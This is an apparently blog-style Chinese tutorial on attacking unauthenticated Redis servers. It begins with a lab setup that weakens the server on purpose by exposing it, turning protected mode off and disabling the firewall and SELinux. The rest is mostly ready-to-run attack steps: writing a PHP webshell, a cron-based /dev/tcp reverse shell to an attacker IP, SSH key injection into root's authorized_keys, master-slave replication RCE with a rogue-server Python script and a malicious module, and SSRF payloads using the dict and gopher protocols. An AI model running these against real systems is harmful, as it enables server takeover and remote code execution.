







Redis介绍
Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库。
###安装教程
第1步：Redis下载
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
第2步：Redis解压、编译
tar zxvf redis-3.2.11.tar.gz
cd redis-3.2.11
make #编译失败也可以的，不影响
make install
进入 redis.conf 文件，还原漏洞现场，修改配置文件
vim redis.conf 新版中这里是127.0.0.1，将他注释掉或者改为0.0.0.0

将保护模式改为no
完成之后启动服务
redis-server redis.conf 启动服务
redis-cli shutdown 关闭服务
关闭防火墙命令： service iptables stop 永久关闭防火墙：chkconfig iptables off
永久有效：修改/etc/sysconfig/selinux 将SELINUX=enforcing，改为SELINUX=disabled。然后重启 即时有效：setenforce 0
在kali下安装redis-cli
wget http://download.redis.io/releases/redis-2.8.12.tar.gz 下载
tar -xzf redis-2.8.12.tar.gz # 解压
cd redis-2.8.12 #cd进入redis目录
make #make安装
进入src目录
cd src
./redis-cli -h 如果这个命令出现帮助界面说明可以正常使用
连接靶机
./redis-cli -h 192.168.62.137 -p 6379
尝试输入命令info，可以成功执行
查看所有秘钥（我这表示为空，没有秘钥）
keys *
攻击利用
写入文件
设置路径，把shell写入到网站根目录下（/var/www/html/）
CONFIG SET dir /var/www/html/
修改备份文件名
CONFIG SET dbfilename 1.php
写入内容
SET webshell "<?php phpinfo();?>"
save

查看是否写入成功
反弹shell
在kali里开启监听
nc -lvvp 9999
set shell "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.239143/9999 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save

等待一分钟，kali已经成功接收shell

通过写入SSH公钥实现SSH登录
原理就是在数据库中插入一条数据，将本机的公钥作为value,key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys,把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生一个授权的key。
在kali生成ssh公钥 (一路回车即可)
ssh-keygen -t rsa

查看id_rsa.pub
cat /root/.ssh/id_rsa.pub

执行redis命令
config set dir /root/.ssh/
config set dbfilename authorized_keys
set x "\n\n\nssh-rsa 这里填id_rsa.pub的内容 root@kali\n\n\n"
save
清空数据库
FLUSHALL

Redis主从复制getshell
原理： 利用主从特性传输数据，通过模块加载，增加执行命令的函数。
下载镜像
docker pull damonevking/redis5.0
映射端口并运行容器
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
自动化工具
exp下载地址： redis-rce redis-rogue-server
环境编译
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
git clone https://github.com/Ridter/redis-rce.git
cd redis-rce/
cp ../RedisModules-ExecuteCommand/src/module.so ./
pip install -r requirements.txt
python redis-rce.py -r 136.244.70.243（目标ip) -L 136.244.70.243（自己的ip） -f module.so
python3 redis-rce.py -r 136.244.70.243（目标ip) -L 136.244.70.243（自己的ip） -f exp.so

手动
利用docker开启2台redis容器用于复现主从复制。
下载镜像
docker pull damonevking/redis5.0
映射端口并运行容器
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
docker run -p 6666:6379 -d --name redis-service-3 damonevking/redis5.0
首先进入主redis
set webshell "<?php phpinfo();?>"
get webshell
在本地 redis 设置远程服务器 redis 服务器为主服务器，同步远程服务器 redis 的内容
slaveof 192.168.72.196 6379
role
get shell
写shell
config set dir /data/
config set dbfilename 11.txt
save
关闭同步
SLAVEOF NO ONE
清除缓存
flushall
编写脚本，构造恶意Redis服务器，监听本地端口1234，加载exp.so。 python RogueServer.py –lport 1234 –exp exp.so
config set dir ./ #设置redis的备份路径为当前目录
config set dbfilename exp.so #设置备份文件名为exp.so，默认为dump.rdb
slaveof 192.168.172.129 1234 #设置主服务器IP和端口
module load ./exp.so #加载恶意模块
slaveof no one #切断主从，关闭复制功能
system.exec 'whoami' #执行系统命令
system.rev 127.0.0.1 9999
config set dbfilename dump.rdb #通过dump.rdb文件恢复数据
system.exec 'rm ./exp.so' #删除exp.so
module unload system #卸载system模块的加载
成功执行系统命令

Redis服务端模拟脚本
import socket
from time import sleep
from optparse import OptionParser
def RogueServer(lport):
resp = ""
sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.bind(("0.0.0.0",lport))
sock.listen(10)
conn,address = sock.accept()
sleep(5)
while True:
data = conn.recv(1024)
if "PING" in data:
resp="+PONG"+CLRF
conn.send(resp)
elif "REPLCONF" in data:
resp="+OK"+CLRF
conn.send(resp)
elif "PSYNC" in data or "SYNC" in data:
resp = "+FULLRESYNC " + "Z"*40 + " 1" + CLRF
resp += "$" + str(len(payload)) + CLRF
resp = resp.encode()
resp += payload + CLRF.encode()
if type(resp) != bytes:
resp =resp.encode()
conn.send(resp)
#elif "exit" in data:
break
if __name__=="__main__":
parser = OptionParser()
parser.add_option("--lport", dest="lp", type="int",help="rogue server listen port, default 21000", default=21000,metavar="LOCAL_PORT")
parser.add_option("-f","--exp", dest="exp", type="string",help="Redis Module to load, default exp.so", default="exp.so",metavar="EXP_FILE")
(options , args )= parser.parse_args()
lport = options.lp
exp_filename = options.exp
CLRF="\r\n"
payload=open(exp_filename,"rb").read()
print "Start listing on port: %s" %lport
print "Load the payload: %s" %exp_filename
RogueServer(lport)
SSRF+Redis 反弹shell
参照Redis手动getshell的过程，可轻易实现SSRF+Redis反弹shell。
以curl为例，漏洞代码为ssrf.php:
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
curl_exec($ch);
curl_close($ch);
?>
环境准备： 模拟内网未授权Redis服务器：192.168.172.131 模拟攻击者机器：192.168.172.129 在攻击者机器上构建恶意Redis服务器，同时监听本地9999端口等待shell返回。
1、利用dict协议反弹shell
#查看当前redis的相关配置
ssrf.php?url=dict://192.168.172.131:6379/info
#设置备份文件名
ssrf.php?url=dict://192.168.172.131:6379/config:set:dbfilename:exp.so
#连接恶意Redis服务器
ssrf.php?url=dict://192.168.172.131:6379/slaveof:192.168.172.129:1234
#加载恶意模块
ssrf.php?url=dict://192.168.172.131:6379/module:load:./exp.so
#切断主从复制
ssrf.php?url=dict://192.168.172.131:6379/slaveof:no:one
#执行系统命令
ssrf.php?url=dict://192.168.172.131:6379/system.rev:192.168.172.129:9999
2、利用gopher协议反弹shell
#设置文件名，连接恶意Redis服务器
gopher://192.168.172.131:6379/_config%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520192.168.172.129%25201234%250d%250aquit
#加载exp.so，反弹shell
gopher://192.168.172.131:6379/_module%2520load%2520./exp.so%250d%250asystem.rev%2520192.168.172.129%25209999%250d%250aquit
3、利用这两种协议，都可以成功获取shell。
